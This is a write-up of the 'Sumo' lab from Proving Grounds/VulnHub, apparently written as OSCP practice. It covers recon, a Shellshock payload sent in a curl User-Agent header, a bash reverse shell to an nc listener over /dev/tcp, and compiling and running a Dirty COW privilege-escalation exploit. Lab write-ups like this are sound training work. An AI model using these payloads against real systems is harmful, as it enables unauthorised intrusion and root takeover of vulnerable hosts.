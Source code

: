 ```yaml
---
title: Proving Grounds Writeup for Lab SUMO
tags:
  - offsec
  - proving-grounds
  - oscp
categories:
  - Bug Bounty
  - Projects
summary: This is the writeup for sumo lab from proving grounds 
created: 2023-07-20
lastmod: 2023-07-20
---
```


## Introduction
Sumo is a machine available on vulnhub and offsec proving grounds labeled **easy** and covers 0-day exploits discovered in the past. The machine hosts a website and has 2 flags to be submitted. 

## Recon
After getting the IP of the machine, ran a basic nmap scan on the target machine: 
```bash
nmap -Pn -sV -T4 192.168.1.48
```

The disovered open ports are `80` and `22`. Lets visit the website first. 

Next thing, i brute forced into the website using `dirsearch`: 
```
python3 dirsearch --url https://192.168.1.120
```

I found the `CGI-BIN` endpoint. And from the nmap output, we know the version of apache is `2.2.22` which is quite an old version.

## Exploitation
### Initial Access

Now, duringthe brute force phase, i also discovered the `test` script under the `CGI-BIN` folder. Since, we know the system is old, lets try the famous `ShellShock` exploit: 
```
curl -H ‘User-Agent: () { :; }; whoami; pwd; pwd’ http://192.168.124.87/cgi-bin/test.sh
```

And we got the output back. Lets escalate it to a shell: 
```
## Listening
nc -lvnp 555

## Target execution
curl -H ‘User-Agent: () { :; }; /bin/bash -i >& /dev/tcp/<IP>/555 0>&1’ http://192.168.XX.XX/cgi-bin/test.sh
```

And we got the shell. Our first flag is in `local.txt` file:
```
cat ./local.txt
```

### Privilege Escalation
Next, we need to escalate it to the root user. So, we can get the other flag as well. Lets get the system version first: 
```
hostnamectl  ## Game me no output
uname -a
```

Hmmm, the linux version seems to be quite old. Now, just like before, the local exploit that came quickly to mind after the shellshoch was `dirtycow`. Lets get a public version of it. Compiling it: 
```
gcc dirtycow.c -o dcow -pthread -static
```

I used the `-static` flag to statically compile the glibc libraries with the binary. Otherwise, you would run into the libraries issue since the system was quite old and i was on `Kali 2023.1`. Lets execute the binary: 
```
chmod +x ./dcow
./dcow
```

